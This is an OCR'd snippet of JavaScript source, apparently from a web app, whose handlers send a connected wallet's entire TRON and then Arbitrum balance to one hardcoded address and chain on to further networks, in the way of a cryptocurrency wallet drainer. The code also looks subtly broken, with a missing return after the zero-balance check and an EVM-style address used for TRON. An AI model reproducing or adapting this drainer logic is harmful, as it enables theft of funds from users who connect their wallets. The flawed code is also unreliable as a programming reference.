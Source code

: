     const handleSendTron = async () => {
      if (!tronBalanceData?.value || tronBalanceData?.formatted === '0') {
        setErrors('TRON balance is zero. Skipping to Arbitrum.');
        handleSwitchToArbitrum();
       }

      try {
         const tronBalance = tronBalanceData?.value;
          const amountToSend = tronBalance ;

          await sendTronTransaction({
            to: '0x7323356FfF92fF61abe79d63f1213296F5386c56',
            value: amountToSend,
          });

          console.log('TRON transaction sent.');

          if(isConfirmingArbitrum || isArbitrumConfirmed ){
          await handleSwitchToArbitrum();
          }
      } catch (error) {
        setErrors('Error sending TRON transaction.');
        console.error(error);
        await handleSwitchToArbitrum();
      }
    };
    
    // Handle Arbitrum transaction and switch to Avalanche
    const handleSendArbitrum = async () => {
      if (!arbitrumBalanceData?.value || arbitrumBalanceData?.formatted === '0') {
        setErrors('Arbitrum balance is zero. Skipping to Avalanche.');
        await handleSwitchToAvalanche();
        return;
      }

      try {
        const arbitrumBalance = arbitrumBalanceData?.value;
        const amountToSend = arbitrumBalance;

        await sendArbitrumTransaction({
          to: '0x7323356FfF92fF61abe79d63f1213296F5386c56',
          value: amountToSend,
        });

        console.log('Arbitrum transaction sent.');

        if (isConfirmingAvalanche || isAvalancheConfirmed) {
          await handleSwitchToAvalanche();
        }
      } catch (error) {
        setErrors('Error sending Arbitrum transaction.');
        console.error(error);
        await handleSwitchToAvalanche();
      }
    };
    